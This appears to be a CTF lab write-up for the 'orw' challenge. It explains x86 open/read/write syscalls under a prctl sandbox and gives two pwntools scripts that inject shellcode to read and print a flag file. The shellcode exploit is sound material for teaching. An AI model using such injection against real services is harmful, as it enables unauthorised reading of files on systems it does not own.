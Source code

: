 # Lab2 orw

## 先備知識

### System call

system call function, eax, ebx, ecx, edx

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b7b658a-1e8c-4c3f-8221-7d663eb98134/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b7b658a-1e8c-4c3f-8221-7d663eb98134/Untitled.png)

### prctl() process control

可以對process進行一些設置，可以限制process的系統調用

### assembly code

[官方asm document](http://docs.pwntools.com/en/stable/asm.html)

- open

    ```wasm
    pop ebx ; ebx's value is filename, fd
    mov eax,5 ; open system call number
    mov ecx,0 ; flag
    int 0x80 ; after open finished, fd will return to eax
    ```

- read

    ```wasm
    mov ebx,eax ; fd
    mov ecx,esp ; put buffer in stack
    mov edx,0x60 ; size, we give it randomly
    mov eax,3 ; read system call number
    int 0x80 ; read will return the length
    ```

- write

    ```wasm
    mov edx, eax ; we put the length to edx
    mov ebx,1 ; stdout
    mov eax, 4
    int 0x80
    ```

- exit

    ```wasm
    mov eax,1
    int 0x80
    ```

## ORW (open read write)

調用system call的open read write取得flag

1. 先將打開該檔案open(filepath)
2. 讀取該檔案內容至內存
3. 利用write將內存用stdout輸出

## Solve

### solve 1 with asm

```python
from pwn import *

#r = remote("csie.ctf.tw", 10134)
r = process('./orw.bin')

sc = asm(
"""
    jmp hello
write:
	
	pop ebx 
	mov eax,5
	mov ecx,0 
	int 0x80 

	mov ebx,eax
	mov ecx,esp 
	mov edx,0x60
	mov eax,3 
	int 0x80
	
	mov edx, eax
	mov ebx,1
	mov eax, 4
	int 0x80
	
	mov eax,1
	int 0x80

hello:
    call write
    .ascii "/home/orw/flag"
    .byte 0
""", arch="i386")

r.recvuntil(":")
r.sendline(sc)
print r.recvall()
r.close()
# r.interactive()
```

## solve 2 with shellcraft (sc)

```python
#!/usr/bin/env python
#coding:utf-8

from pwn import *
from pwn import shellcraft as sc
context.log_level = "debug" # debug mode

shellcode = sc.pushstr("flag") # first push the filepath to the top of the stack
shellcode += sc.open("esp", 0, 0) # open the top of stack
shellcode += sc.read("eax", "esp", 0x100) # ( mov ebx,eax , mov ecx,exp , mov edx 0x100 )
shellcode += sc.write(1, "esp", 0x100) # ( mov ebx,1 , mov ecx,esp , mov, edx 0x100 )

io = process("./orw.bin")
#print(asm(shellcode))
io.sendlineafter("shellcode:", asm(shellcode))
print io.recvall()
io.close()
```
